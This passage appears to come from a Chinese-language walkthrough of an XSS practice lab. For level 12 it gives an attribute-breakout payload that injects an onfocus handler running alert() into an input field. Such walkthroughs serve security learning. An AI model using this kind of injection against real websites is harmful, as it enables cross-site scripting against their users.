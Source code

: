 ​![image](assets/image-20240913223912-7dxule2.png)​

点击输入框执行。

​![image](assets/image-20240913222025-xvu0gbm.png)​

## level12

这关就和上一关差不多了，所以直接上代码。

payload：

```bash
" onfocus="javascript:alert()" type="text" "
```

​![image](assets/image-20240913224330-jv7ijmt.png)​
